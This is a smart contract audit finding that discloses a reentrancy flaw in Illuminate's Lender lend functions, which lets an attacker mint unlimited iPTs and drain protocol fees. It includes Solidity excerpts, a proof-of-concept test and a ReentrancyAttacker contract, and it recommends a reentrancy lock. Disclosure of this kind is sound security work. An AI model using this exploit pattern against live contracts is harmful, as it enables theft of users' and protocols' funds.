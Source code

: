 kenzo

high

# Reentrancy in lending functions allows attacker to mint infinite amount of iPTs

## Summary
Some of the lending functions get a user-controlled contract as a swapping pool and call it.
The lending function checks Lender's balance before and after the call to quantify the amount of tokens received.
But an attacker can reenter the contract, thereby fooling this check and minting arbitrary amount of tokens to itself.

## Vulnerability Detail
This pattern is present when lending for protocols Illuminate, Yield, Swivel, APWine, Sense, Element.
Let's look at Sense's `lend` for example.
The (truncated) function is as follows:
```solidity
            uint256 starting = token.balanceOf(address(this));
            ISensePeriphery(x).swapUnderlyingForPTs(adapter, s, lent, r);
            received = token.balanceOf(address(this)) - starting;
            IERC5095(principalToken(u, m)).authMint(msg.sender, received);
```
`x` is a user supplied parameter.
An attacker can supply as `x` a contract which upon the first call, reenters `Lender`, and upon the second call, does a real swap on Sense (or just sends PTs to `Lender`). In that case, both the first and second `lend` calls will calculate that the contract received `delta` principal from the attacker, although it was received only once. So the attacker would get twice the amount of iPTs. I've created a POC below.

## Impact
Loss of user funds.
Infinite minting of iPTs is possible.
Attacker may then dump them on the market,
or mint them just before market maturity, and then redeem them, thereby stealing user funds.

Bonus:
The reentrancy also allows an attacker to steal protocol fees, eg. through Sense or APWine lending which doesn't verify the supplied pool/adapter.
The attacker would start a lend call for an expensive underlying (stEth). Sense's `swapUnderlyingForPTs` call would call the attacker contract which would call Sense function again, but with a cheap underlying (DAI), and an adapter that will swap stEth, not DAI. This stEth is present in `Lender` due to user fees. This second function call would swap stEth for the PT and mint nothing to the attacker (since `u==DAI`). But then the first function would resume, seeing that the contract received stEth PTs, and would mint to the attacker stEth iPTs on the expense of the protocol's fees. So the attacker supplied DAI and received equal amount of stEth, not a bad trade.

## Code Snippet
Above I've pasted Sense's function.
Yield, Illuminate and Swivel (via `swivelLendPremium`) all use the `yield` function which [contains](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L928) the same vulnerable pattern (truncated. `y` is user supplied pool):
```solidity
        uint256 starting = IERC20(p).balanceOf(r);
        IYield(y).sellBase(r, returned);
        uint256 received = IERC20(p).balanceOf(r) - starting;
```

Element [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L1001) (`e` is user supplied):
```solidity
        uint256 starting = IERC20(principal).balanceOf(address(this));
        IElementVault(e).swap(s, f, r, d);
        uint256 purchased = IERC20(principal).balanceOf(address(this)) - starting;
```

And [same pattern](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L598) for APWine.
```solidity
        uint256 starting = IERC20(principal).balanceOf(address(this));
        IAPWineRouter(x).swapExactAmountIn(...);
        uint256 received = IERC20(principal).balanceOf(address(this)) - starting;
```

## Proof of Concept
The following test will demonstrate the vulnerability.
Paste it in fork/Lender.t.sol. The test should go after all the tests, inside `contract LenderTest` block, and the contract should go outside that block.
```solidity
function testInfiniteMintWithReentrancy() public {
        deployMarket(Contracts.WETH);

        // For ease of POC we will seed attacker with initialBalance of SensePT.
        // He will end up with initialBalance * (timesToRenter + 1) iPTs.
        uint256 initialBalance = 100 ether;
        uint256 timesToRenter = 100;
        ReentrancyAttacker attackContract = new ReentrancyAttacker();
        deal(Contracts.SENSE_TOKEN, address(attackContract), initialBalance);

        attackContract.executeVeryProfitableContractInteraction(l, IERC20(Contracts.SENSE_TOKEN), Contracts.WETH, maturity, timesToRenter);

        address ipt = mp.markets(Contracts.WETH, maturity, 0);
        // Attacker has [initialBalance * (timesToRenter + 1)] iPTs although he started with only initialBalance iPTs.
        assertEq(IERC20(ipt).balanceOf(address(attackContract)), initialBalance * (timesToRenter + 1));
    }
```

```solidity
contract ReentrancyAttacker {
    uint256 timesToReenter;
    IERC20 pt;
    Lender lender;
    address u;
    uint256 m;

    function callLend() internal {
        // Call Lender for Sense protocol
        lender.lend(6, u, m, 0, 0, address(this), 0, address(0));
    }

    function executeVeryProfitableContractInteraction(Lender _lender, IERC20 _pt, address _u, uint256 _m, uint256 _timesToReenter) public {
        lender = _lender;
        pt = _pt;
        u = _u;
        m = _m;
        timesToReenter = _timesToReenter;

        callLend();
    }

    // The callback from Lender
    function swapUnderlyingForPTs(address, uint256, uint256, uint256) external returns (uint256 r) {
        r = 23; // just to silence compiler warning 😐
        if (timesToReenter == 0) {
            uint256 balance = pt.balanceOf(address(this));
            pt.transfer(address(lender), balance);
        } else {
            timesToReenter--;
            callLend();
        }
    }
}
```
## Tool used
Manual Review

## Recommendation
Add reentrancy lock on the lending functions.
